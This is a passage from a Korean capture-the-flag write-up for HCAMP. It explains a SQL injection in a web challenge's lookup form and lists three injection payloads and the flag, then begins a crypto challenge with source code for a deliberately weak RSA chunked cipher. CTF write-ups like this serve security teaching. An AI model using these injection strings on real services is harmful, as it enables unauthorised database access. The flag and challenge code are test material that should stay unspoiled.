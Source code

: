 문제 내 서비스는 name과 birth 파라미터를 통해 POST로 합격자 조회를 요청할 수 있다. 그러나 조회 과정에서 사용되는 SELECT 쿼리에 파라미터가 검증 없이 바로 삽입되면서 SQL Injection을 수행할 수 있다. 다음과 같이 다양한 방식의 접근을 통해 문제를 해결할 수 있다.

* `" union select 1, 2, 3, 4, group_concat(name) from prob#`
* `" or 1 limit 36,1#`
* `" or name like "%HCAMP%"#`

#### FLAG

`HCAMP{5D46BCE881C8E9EAAA547453D4E15A21}`

## CRYPTO

### Really Safe A,,,

> 이거이거 정말 안전한데 표현할 방법이 없네,,,

```python
from Crypto.Util.number import getPrime, bytes_to_long, long_to_bytes
import gmpy2

e = 65537

p = getPrime(1024)
q = getPrime(1024)

N = p * q
phi = (p - 1) * (q - 1)

d = gmpy2.divm(1, e, phi)

def padding(msg):
    total_length = len(msg) + (len(msg) % 2)
    return msg.ljust(total_length, '=')

def really_secret_cipher(plaintext):
    cipher_list = []
    msg = padding(plaintext)

    for ptr in range(0, len(msg)-2, 2):
        M1 = bytes_to_long(msg[ptr:ptr+2].encode())
        C1 = gmpy2.powmod(M1, e, N)
        M2 = bytes_to_long(msg[ptr+2:ptr+4].encode())
        C2 = gmpy2.powmod(M2, e, N)

        super_C = C1 * C2
        cipher_list.append(long_to_bytes(super_C).hex())
   
    return '.'.join(cipher_list)


FLAG = "HCAMP{******}"
if __name__ == '__main__':
    encrypted_flag = really_secret_cipher(FLAG)
    with open('data.enc', 'w') as f:
        print("FLAG : " + FLAG)
        f.write(str(N) + '/' + str(e) + '/' + encrypted_flag)
```
